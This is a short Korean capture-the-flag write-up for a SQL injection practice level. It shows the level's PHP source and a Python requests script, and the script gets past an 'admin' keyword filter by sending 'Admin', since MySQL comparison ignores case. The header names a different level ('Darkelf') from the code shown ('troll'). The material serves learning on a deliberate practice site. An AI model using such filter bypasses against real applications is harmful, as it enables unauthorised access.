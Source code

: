 
## Darkelf Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");  
if(@ereg("admin",$_GET[id])) exit("HeHe");  
$query = "select id from prob_troll where id='{$_GET[id]}'";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id'] == 'admin') solve("troll");  
highlight_file(__FILE__);  
?>
```

### Exploit 코드
``` python
import requests

url = 'https://los.rubiya.kr/troll_05b5eb65d94daf81c42dd44136cb0063.php?'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}
params['id'] = 'Admin'

res = requests.get(url, cookies=cookies, params=params)

if "Clear" in res.text :
    print("[♪] TROLL Clear")
```
이번 문제는 id가 admin이면 문제가 풀리는데 admin이 필터링 되어 있다.  
MySQL은 대소문자를 구분하지 않는다는 특징이 있다.  
따라서 `admin`과 `Admin`을 같은 문자열로 보기 때문에 이를 이용하면 문제가 풀린다.